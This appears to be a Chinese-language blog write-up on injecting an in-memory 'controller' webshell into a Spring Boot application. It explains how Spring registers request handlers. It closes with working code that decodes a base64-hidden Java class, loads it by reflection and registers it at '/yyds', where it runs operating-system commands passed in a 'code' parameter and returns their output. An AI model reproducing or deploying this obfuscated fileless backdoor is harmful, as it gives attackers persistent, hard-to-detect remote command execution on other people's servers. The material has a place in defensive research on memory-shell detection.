








# 针对springboot的controller内存马

<center>@Y4tacker</center>

## 环境

我自己用的是springboot，因为比较方便版本是(2.5.10-SNAPSHOT)


## 简单写个Controller

```java
@Controller
public class Test {

    @ResponseBody
    @RequestMapping("/")
    public String abc(HttpServletRequest req, HttpServletResponse resp){
        return "";
    }
    
}
```

## 分析

现在我们就简单通过调试来知道如何注册一个Controller

在AbstractHandlerMethodMapping的initHandlerMethods方法下断点

首先获取全部的bean再遍历，遍历之后获取bean的类型保存到beanType

```java
protected void initHandlerMethods() {
String[] var1 = this.getCandidateBeanNames();
int var2 = var1.length;

for(int var3 = 0; var3 < var2; ++var3) {
String beanName = var1[var3];
if (!beanName.startsWith("scopedTarget.")) {
this.processCandidateBean(beanName);
}
}

this.handlerMethodsInitialized(this.getHandlerMethods());
}
```



再通过isHandler来判断这个bean是否是一个Controller或RequestMapping注解修饰

```java
protected boolean isHandler(Class<?> beanType) {
        return AnnotatedElementUtils.hasAnnotation(beanType, Controller.class) || AnnotatedElementUtils.hasAnnotation(beanType, RequestMapping.class);
    }
```

之后调用detectHandlerMethods接下来就很简单了



首先通过这个全类名获取类的实例，再遍历类中的方法添加即可

其中在getMappingForMethod()方法中，会解析Controller类的方法中的注解，从而生成一个与之对应的RequestMappingInfo对象，里面保存了访问Method的url条件



之后将bean，Method，RequestMappingInfo注册进MappingRegistry,




最后的registerHandlerMethod()方法就是执行mappingRegistry.register()方法，到这里，url与处理的类之间的映射关系被保存，当我们访问url时，springboot便知道由哪个类中的那个方法处理，如果我们能创建一个RequestMappingInfo，一个处理的类，将他们的映射关系保存进mappingRegistry，controller就能建立



在AbstractHandlerMethodMapping类中还有一个方法也会进入mappingRegistry.register()，就是registerMapping方法，这个方法就是动态添加Controller的接口，在程序过程中，只要调用这个接口，就能注册一个Controller类，从上面的分析过程可以知道，这个接口的使用条件是1，bean实例，2，处理请求的method，3、对应的RequestMappinginfo对象

因此简单实现即可

```java
String code ="yv66vgAAADQAjQoAIQBKCABLCwBMAE0LAE4ATwgAUAgAUQoAUgBTCgAMAFQIAFUKAAwAVgcAVwcAWAgAWQgAWgoACwBbCABcCABdBwBeCgALAF8KAGAAYQoAEgBiCABjCgASAGQKABIAZQoAEgBmCgASAGcKAGgAaQoAaABqCgBoAGcLAE4AawcAbAcAbQcAbgEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAWTGNvbS90ZXN0L2hhcHB5c2IvYWJjOwEABWxvZ2luAQBSKExqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0O0xqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXNwb25zZTspVgEAAXABABpMamF2YS9sYW5nL1Byb2Nlc3NCdWlsZGVyOwEAAW8BABJMamF2YS9sYW5nL1N0cmluZzsBAAFjAQATTGphdmEvdXRpbC9TY2FubmVyOwEABGFyZzABAAZ3cml0ZXIBABVMamF2YS9pby9QcmludFdyaXRlcjsBAAdyZXF1ZXN0AQAnTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7AQAIcmVzcG9uc2UBAChMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7AQANU3RhY2tNYXBUYWJsZQcAWAcAbwcAVwcAXgcAbAEAEE1ldGhvZFBhcmFtZXRlcnMBABlSdW50aW1lVmlzaWJsZUFubm90YXRpb25zAQA4TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2JpbmQvYW5ub3RhdGlvbi9SZXF1ZXN0TWFwcGluZzsBAAV2YWx1ZQEACC9mYXZpY29uAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARhcmdzAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAClNvdXJjZUZpbGUBAAhhYmMuamF2YQEAK0xvcmcvc3ByaW5nZnJhbWV3b3JrL3N0ZXJlb3R5cGUvQ29udHJvbGxlcjsMACIAIwEABGNvZGUHAHAMAHEAcgcAcwwAdAB1AQAAAQAHb3MubmFtZQcAdgwAdwByDAB4AHkBAAN3aW4MAHoAewEAGGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcgEAEGphdmEvbGFuZy9TdHJpbmcBAAdjbWQuZXhlAQACL2MMACIARAEABy9iaW4vc2gBAAItYwEAEWphdmEvdXRpbC9TY2FubmVyDAB8AH0HAH4MAH8AgAwAIgCBAQACXEEMAIIAgwwAhACFDACGAHkMAIcAIwcAbwwAiACJDACKACMMAIsAjAEAE2phdmEvbGFuZy9FeGNlcHRpb24BABRjb20vdGVzdC9oYXBweXNiL2FiYwEAEGphdmEvbGFuZy9PYmplY3QBABNqYXZhL2lvL1ByaW50V3JpdGVyAQAlamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdAEADGdldFBhcmFtZXRlcgEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQAmamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2UBAAlnZXRXcml0ZXIBABcoKUxqYXZhL2lvL1ByaW50V3JpdGVyOwEAEGphdmEvbGFuZy9TeXN0ZW0BAAtnZXRQcm9wZXJ0eQEAC3RvTG93ZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgEABXN0YXJ0AQAVKClMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQAMdXNlRGVsaW1pdGVyAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS91dGlsL1NjYW5uZXI7AQAHaGFzTmV4dAEAAygpWgEABG5leHQBAAVjbG9zZQEABXdyaXRlAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWAQAFZmx1c2gBAAlzZW5kRXJyb3IBAAQoSSlWACEAIAAhAAAAAAADAAEAIgAjAAEAJAAAADMAAQABAAAABSq3AAGxAAAAAgAlAAAACgACAAAADAAEAA0AJgAAAAwAAQAAAAUAJwAoAAAAAQApACoAAwAkAAABqAAGAAgAAACzKxICuQADAgBOLLkABAEAOgQtxgCTEgU6BRIGuAAHtgAIEgm2AAqZACG7AAtZBr0ADFkDEg1TWQQSDlNZBS1TtwAPOganAB67AAtZBr0ADFkDEhBTWQQSEVNZBS1TtwAPOga7ABJZGQa2ABO2ABS3ABUSFrYAFzoHGQe2ABiZAAsZB7YAGacABRkFOgUZB7YAGhkEGQW2ABsZBLYAHBkEtgAdpwAMLBEBlLkAHgIApwAETrEAAQAAAK4AsQAfAAMAJQAAAEoAEgAAABIACQATABEAFAAVABUAGQAXACkAGABHABoAYgAdAHgAHgCMAB8AkQAgAJgAIQCdACIAogAjAKUAJACuACcAsQAmALIAKQAmAAAAXAAJAEQAAwArACwABgAZAIkALQAuAAUAYgBAACsALAAGAHgAKgAvADAABwAJAKUAMQAuAAMAEQCdADIAMwAEAAAAswAnACgAAAAAALMANAA1AAEAAACzADYANwACADgAAAApAAj+AEcHADkHADoHADn8ABoHADv8ACUHADxBBwA5+AAa+QAIQgcAPQAAPgAAAAkCADQAAAA2AAAAPwAAAA4AAQBAAAEAQVsAAXMAQgAJAEMARAACACQAAAArAAAAAQAAAAGxAAAAAgAlAAAABgABAAAALQAmAAAADAABAAAAAQBFAEYAAAA+AAAABQEARQAAAAIARwAAAAIASAA/AAAABgABAEkAAA==";
byte[] d = new sun.misc.BASE64Decoder().decodeBuffer(code);
java.lang.reflect.Method m = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{String.class, byte[].class, int.class, int.class});
m.setAccessible(true);
m.invoke(Thread.currentThread().getContextClassLoader(), new Object[]{"com.test.happysb.abc",d, 0, d.length});
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
PatternsRequestCondition url = new PatternsRequestCondition("/yyds");
RequestMappingInfo info = new RequestMappingInfo(url, null, null, null, null, null, null);
RequestMappingHandlerMapping rs = context.getBean(RequestMappingHandlerMapping.class);
Method mm = (Class.forName("com.test.happysb.abc").getDeclaredMethods())[0];
rs.registerMapping(info, Class.forName("com.test.happysb.abc").newInstance(), mm);
```

可以看到已经成功了
